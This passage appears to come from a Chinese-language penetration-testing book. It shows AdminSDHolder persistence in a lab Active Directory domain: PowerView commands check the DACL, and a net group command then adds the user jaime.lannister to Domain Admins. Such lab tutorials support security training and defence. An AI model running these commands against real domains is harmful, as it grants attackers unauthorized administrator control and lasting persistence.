 在 60 分钟后，我们可以看到我们的用户账户被添加到 AdminSDHolder DACL 中：

```
Get-DomainObjectAcl -Identity 'CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local' | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericAll")} | select securityidentifier
Get-DomainObjectAcl -Identity 'Domain Admins' | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericAll")} | select securityidentifier
```

攻击过程如以下截图所示：

![图 7.12 – jaime.lannister 被添加到 AdminSDHolder 域对象的 DACL 中](img/B18964_07_12.jpg)

图 7.12 – jaime.lannister 被添加到 AdminSDHolder 域对象的 DACL 中

必要时，攻击者将以 **jaime.lannister** 身份登录，并将自己添加到 **domain** **admins** 组中：

```
net group "domain admins" jaime.lannister /add /domain
```

结果可以在以下截图中看到：
